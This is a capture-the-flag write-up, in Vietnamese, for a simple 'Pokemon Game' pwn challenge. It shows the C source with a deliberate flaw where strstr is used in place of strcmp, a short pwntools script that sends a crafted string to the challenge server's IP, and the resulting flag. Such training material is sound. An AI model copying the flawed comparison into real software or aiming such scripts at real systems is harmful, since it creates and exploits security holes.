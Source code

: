 # Pokemon Game (Pwn)

Bài cho sẵn source code

{% code lineNumbers="true" %}
```c
#include<stdio.h>
#include<string.h>
#include<time.h>
#include<stdlib.h>

void win(){
	system("cat flag.txt");
}

char *pokemons[3] = {"Bulbasaur", "Charmander", "Squirtle"};
char *pokemonss[3] = {"Charmander", "Squirtle", "Bulbasaur"};
int times = 0;

int read_line(char *buf, int n)
{
    for (int i = 0; i < n; ++i)
    {
        if (fread(buf + i, 1, 1, stdin) != 1)
        {
            puts("Fatal error!");
            exit(-1);
        }
        if (buf[i] == '\n')
        {
            buf[i] = '\0';
            return i;
        }
    }

    buf[n - 1] = '\0';
    return n;
}

int Play(){
	char choice[30];
	srand(time(NULL));
he:
	printf("Your choice: ");
	read_line(choice, sizeof(choice));
	if(!strcmp(choice,"Bulbasaur")){
		printf("\nYou choose the Bulbasaur\n");
	}
	else if(!strcmp(choice,"Charmander")){
		printf("\nYou choose the Charmander\n");
	}	
	else if(!strcmp(choice,"Squirtle")){
		printf("\nYou choose the Squirtle\n");
	}
	int computer = rand()%3;
	printf("The computer choose: %s\n", pokemons[computer]);
	if(strstr(choice, pokemonss[computer])){
		printf("You win. Do you want to continue playing?\n\n");
		return 1;
	}
	else{
		printf("You lose, play again?\n\n");
		return 0;
	}
}

int main(){
	setvbuf(stdin, 0LL, 2, 0LL);
	setvbuf(stdout, 0LL, 2, 0LL);
	
	printf("--------WELCOME TO POKEMON GAME--------\n")	;
	printf("Choose one of the following three pokemons to start the game:\n\n");
	printf("---\nBulbasaur\nCharmander\nSquirtle\n---\n");   	
	printf("You need to beat a computer pokemon 10 times to win this game.\n");
	printf("Hint: Pokemon counter each other, you need to choose the right pokemon to win.\n\n");
	while(1){
		if(Play()){
			times++;
		}	
		else{
			times--;
		}
		if(times==5){
			printf("You are winning %d times, come on!!\n\n", times);
		} 
		if(times>10){
			printf("Congrats. You win the game, here is your gift: ");
			win();
		}
	}
	return 0;
}

```
{% endcode %}

Bài này dính lỗi ở line 51, dùng hàm `strstr` thay vì hàm `strcmp`. Hàm strstr chỉ kiểm tra `pokemonss[computer]` có ở trong `choice` hay không.

Chỉ cần ghi biến choice chứa hết các string của `pokemonss.`

Script giải:

{% code lineNumbers="true" %}
```python
from pwn import *
from time import sleep
p=remote("45.122.249.68",10017)

p.recv()
for i in range(11):
	p.sendline(b"BulbasaurCharmanderSquirtle")
	sleep(1)
p.interactive()
	

```
{% endcode %}

<figure><img src="../../.gitbook/assets/Screenshot 2022-10-11 134349.png" alt=""><figcaption></figcaption></figure>

Flag: `W1{MU_VODICHHHHHHHHHHHHHHHHHHHHHHHHHHHH}`
